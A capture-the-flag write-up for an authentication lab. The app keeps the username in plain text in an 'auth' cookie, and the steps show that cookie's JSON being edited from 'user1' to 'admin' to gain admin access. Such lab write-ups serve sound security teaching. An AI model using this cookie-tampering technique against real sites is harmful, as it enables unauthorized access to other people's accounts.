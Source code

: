 # Write Up

## Challenge name

Authentication 01

## description

In this exercise, you can log in as user1.

Your goal is to get logged in as admin. To do so, you need to carefully look at the response sent back by the server.

You can see that when you log in as user1, you get a cookie named user1.

From the cookie, you can easily modify a value (using a proxy or a browser's extension) to get logged in as admin.

## solution

- go to the url.
- create a new user in register
  - user:password1

- logged as user1 and using a proxy we can see the cookies.

```
{"url":"https://ptl-1d7d5648d681-1ed308b21802.libcurl.me","cookies":[{"domain":"ptl-1d7d5648d681-1ed308b21802.libcurl.me","hostOnly":true,"httpOnly":false,"name":"auth","path":"/","sameSite":"unspecified","secure":false,"session":true,"storeId":"0","value":"user1"}]}
```
- this part in specific: `,"value":"user1"}]}`
where we can see the user we are currently logged as. "user1"
- the login information is in plain text, so changing the value from "user1" to "admin" should log us on as the new value "admin"
```
{"url":"https://ptl-1d7d5648d681-1ed308b21802.libcurl.me","cookies":[{"domain":"ptl-1d7d5648d681-1ed308b21802.libcurl.me","hostOnly":true,"httpOnly":false,"name":"auth","path":"/","sameSite":"unspecified","secure":false,"session":true,"storeId":"0","value":"admin"}]}
```
`...,"value":"admin"}]}`

- refresh the page.
- now were are admin.
and we can se the flag in the page.

## flag
```
flag{}
```